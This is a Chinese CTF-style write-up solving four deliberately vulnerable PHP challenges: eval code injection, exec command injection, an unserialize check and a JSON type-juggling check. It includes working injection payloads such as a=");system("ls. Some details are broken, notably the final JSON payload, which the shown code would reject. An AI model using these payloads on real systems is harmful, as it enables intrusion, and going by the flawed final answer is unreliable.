

# 第一题

代码执行漏洞是指没有针对代码中可执行的特殊函数入口做过滤，导致客户端可以提交恶意构造语句提交，并交由服务器端执行。请利用该漏洞获取到KEY

```php
<?php
error_reporting(0);
include "key4.php";
$a=$_GET['a'];
eval("\$o=strtolower(\"$a\");");
echo $o;
show_source(__FILE__);
```

## write up

虽然看不太懂,感觉是字符逃逸类的, 尝试 a=");system("ls


还是有点用处,然后读key.cisp就可以,了


# 第二题

请阅读代码，使用可能的利用方法，并找出可能存在flag的文件并读取flag。

```php
<?php
error_reporting(0); 
show_source(__FILE__);
if(strlen($_GET[1]<30)){
    echo strlen($_GET[1]);
    echo exec($_GET[1]);
}else{
    exit('too more');
}
?>
0
```

## write up

exec 执行外ibu命令,但是只返回最后一行的数据,

所以应该让命令输出在一行中,我使用了 ls | tr '/n' ' '将换行替换为空格显示到一行中

或者用ls | tr -d '\n' 也可以

官方的题解是通过重定向标准输出到一个文件 ls >1.txt 然后再通过网页访问


# 第三题

```
?php
error_reporting(0);
include "flag.php";
$TEMP = "CISP";
$str = $_GET['str'];
if (unserialize($str) === $TEMP)
{
    echo "$flag";
}
show_source(__FILE__);
```

## write up

这是一个序列化的题目,如果记不住格式,可以使用本地的php服务器,.但是要会用 serialize()函数,

```bash
kali@hostname:~$ php -r '$str="CISP";echo serialize($str);'
s:4:"CISP";kali@hostname:~$ 
#或者
kali@hostname:~$ php -r 'echo serialize("CISP");'
s:4:"CISP";kali@hostname:~$ 


```

传入get参数  `str=s:4:"CISP";`



# 第四题

启动环境，通读代码，获得flag值吧，注意flag格式为：flag_nisp_xxxxxx

```php
<?php
$v1 = 0;
$v2 = 0;
//首先要通过url 提供一个w参数
$a = (array)json_decode(@$_GET['w']);
if (is_array($a)) {
    //w参数要是一个json对象,第一个键名为bar1,值是数字
    is_numeric(@$a["bar1"]) ? die("nope") : NULL;
    if (@$a["bar1"]) {
      //bar1 的值还要大于2020
        ($a["bar1"] > 2020) ? $v1 = 1 : NULL;
    }
    //第二个键还是一个数组,键名为bar2
    if (is_array(@$a["bar2"])) {
        //数组的大小不等于5 或者数组的第一个值不能是数组
        if (count($a["bar2"]) != 5 or !is_array($a["bar2"][0])) {
            die("nope");
        }
        //第三个键名为bar3,
        $pos = array_search("cisp-pte", $a["bar3"]);
        //键值需要为字符串"cisp-pte"
        $pos === false ? die("nope") : NULL;
        //便利第二个键,值里面不能有这个字符
        foreach ($a["bar2"] as $key => $val) {
            $val == "cisp-pte" ? die("nope") : NULL;
        }
        $v2 = 1;
    }
}
if ($v1 && $v2) {
    include "key.php";
    echo $key;
}
highlight_file(__file__);
?>
```


根据上面的注释 ,构造w参数

`?w={"bar1":2021;"bar2":[1];"bar3":["cisp-pte"]}`
